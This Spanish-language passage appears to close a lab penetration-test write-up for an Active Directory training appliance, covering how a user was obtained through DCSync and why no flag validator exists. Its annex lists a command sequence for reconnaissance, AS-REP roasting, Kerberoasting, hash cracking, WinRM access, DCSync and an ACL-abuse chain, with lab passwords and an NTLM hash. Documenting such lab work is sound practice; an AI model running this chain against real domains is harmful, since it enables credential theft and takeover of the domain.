`d.morales` se obtuvo por DCSync y se usó para validar la cadena después del compromiso; no se
recuperó su contraseña en claro. El informe lo dice explícitamente para no convertir una validación
posterior en una entrada inicial que no ocurrió.

Y, sobre la bandera: la OVA no incluye validador. La evidencia es el fichero máster leído como
`titan_api`. El texto “Cadena Ofensiva Validada” del propio fichero es contexto de diseño, no una
prueba externa. **No se inventó una validación.**

---

## Anexo A — Reproducción rápida

> Ejecutar solo contra la OVA de laboratorio y con autorización explícita. Los scripts están
> pensados para documentar y repetir el análisis, no para atacar sistemas reales.

```bash
# 1) Reconocimiento
./exploits/recon_ad.sh 172.16.202.131 corp.local

# 2) AS-REP roasting (sin credenciales)
./exploits/asrep_kerberoast.sh 172.16.202.131 corp.local

# 3) Kerberoasting con la credencial de servicio
./exploits/asrep_kerberoast.sh 172.16.202.131 corp.local svc_sql Password123

# 4) Cracking
./exploits/crack_hashes.sh loot/asrep.txt loot/kerberoast.txt

# 5) WinRM + DCSync
crackmapexec winrm 172.16.202.131 -u svc_sql -p 'Password123'
./exploits/dcsync.sh 172.16.202.131 corp.local svc_sql Password123

# 6) Bandera (lectura del fichero máster; no hay validador)
./exploits/read_flag.sh 172.16.202.131 titan_api Password123

# 7) Cadena de ACLs: primero en dry-run
DM_HASH=c5944a4b6fd2e7bd92b44fced7400ee0 \
TITAN_PASS=Password123 \
./exploits/acl_chain.sh 172.16.202.131 corp.local

# 8) Validación real (solo laboratorio; añade y elimina estudiante)
DM_HASH=c5944a4b6fd2e7bd92b44fced7400ee0 \
TITAN_PASS=Password123 \
EXECUTE=1 ./exploits/acl_chain.sh 172.16.202.131 corp.local
```

> ⚠️ **Las credenciales de este documento son las del laboratorio de entrenamiento.** No son
> secretos reales. Aun así, en un entorno productivo cualquiera de estos hallazgos obliga a rotar
> las credenciales expuestas, revisar los registros de Kerberos, LDAP, SMB y WinRM, y comprobar si
> el acceso se produjo antes de la auditoría.
